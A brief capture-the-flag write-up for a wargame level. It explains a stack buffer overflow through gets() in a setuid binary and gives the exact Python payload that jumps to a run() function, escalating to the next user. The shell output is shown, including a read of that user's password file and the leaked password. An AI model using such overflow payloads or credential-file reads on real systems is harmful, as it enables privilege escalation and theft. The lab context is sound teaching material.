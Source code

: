 # level1

```sh
$> ls -l ~
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

The use of `gets()` is a security risk.  
In this case, we can use this vulnerability to gain 'level2' access.
We retrieve the address of `run()` and we overflow the buffer with 76 chars + the address of the function.

```sh
$> whoami
level1

$> (python -c "print('a' * 76 +'\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
$ ^C
Segmentation fault (core dumped)
```
